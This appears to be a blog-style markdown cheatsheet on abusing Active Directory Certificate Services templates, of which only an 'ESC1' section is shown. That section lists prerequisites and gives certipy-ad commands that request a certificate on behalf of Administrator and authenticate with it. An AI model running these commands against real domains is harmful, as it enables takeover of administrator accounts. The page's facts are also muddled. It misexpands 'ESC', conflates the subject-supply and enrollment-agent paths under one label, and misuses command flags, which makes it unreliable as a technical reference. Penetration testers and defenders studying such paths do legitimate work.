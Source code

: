 ```yaml
---
title: "Active Directory Certificate Services (AD CS) Exploitation – ESC Paths Cheatsheet"
description: "A concise, attacker-focused reference of Enterprise Security Control (ESC) abuse paths in Active Directory Certificate Services."
date: 2025-06-11T10:00:00+05:30
categories:
  - windows
  - adcs
  - hacking
tags:
  - privilege escalation
  - windows security
  - windows
  - pentesting
  - esc
  - certipy
  - red team
---
```

---

For detailed explanations, real-world examples, and tool usage, refer to the Certipy wiki: [Priv Esc](https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation)

---

# ESC1 – Enroll On Behalf Of (EBO) Abuse
Exploit the Enrollment Agent certificate template to request a certificate on behalf of another user, such as a Domain Admin.
## Requirements:
- Certificate template has
  - `ENROLLEE_SUPPLIES_SUBJECT` flag set.
  - `Certificate Request Agent` EKU.
- You have:
  - Enroll rights on that template.
  - Enrollment Agent rights.
- The CA accepts requests from that template.

## Impact:
You can request a certificate for any user, including Administrator, and authenticate as them (via PKINIT, etc.).

## Example:
### Certipy:
```bash
# 1. Request certificate on behalf of Administrator
certipy-ad req -u 'youruser' -p 'yourpass' \
  -ca 'ca.domain.local\CA-NAME' \
  -template 'EnrollmentAgentTemplate' \
  -target 'Administrator' \
  -on-behalf-of 'Administrator' \
  -pfx administrator.pfx

# 2. Use the PFX to authenticate
certipy-ad auth -pfx administrator.pfx
```
